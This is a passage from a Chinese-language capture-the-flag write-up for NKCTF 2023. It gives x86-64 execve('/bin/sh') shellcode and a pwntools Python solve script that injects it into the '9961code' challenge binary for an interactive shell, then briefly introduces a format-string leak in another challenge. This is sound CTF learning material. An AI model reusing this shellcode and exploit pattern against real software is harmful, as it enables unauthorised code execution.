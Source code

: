 清除rdx的方法还有cdq，该指令会将eax第31位赋值给edx所有的bit。

```asm
xor rsi, rsi
lea rdi, [r15+0xe]
cdq
mov ax, 59
syscall
"/bin/sh"
```

[9961code](/assets/binary/2023-04-13-NKCTF23/9961code_attachment.zip)

```python
from pwn import *

libc = ELF('./libc.so.6')
elf = ELF('./pwn')

context.log_level = 'debug'
context.os = 'linux'
context.arch = 'amd64'

class Solve:

    def __init__(self, handle) -> None:
        self.handle = handle
    def solve(self):
        self.handle.recvuntil('In that case, you can only enter a very short shellcode!\n')
        payload = "xor rsi, rsi\n" \
                "mul esi\n" \
                "mov edi, 0x996100e\n" \
                "mov al, 59\n" \
                "syscall\n"
        payload = asm(payload)
        print(len(payload))
        payload += b"/bin/sh\x00"
        print(len(payload))
        #gdb.attach(self.handle)
        self.handle.send(payload)
        self.handle.interactive()


if __name__ == '__main__':
    p = process('./pwn')
    sol = Solve(p)
    sol.solve()
```

# message_boards

格式化溢出漏洞，可以直接泄露canary和_IO_2_1_stderr_。
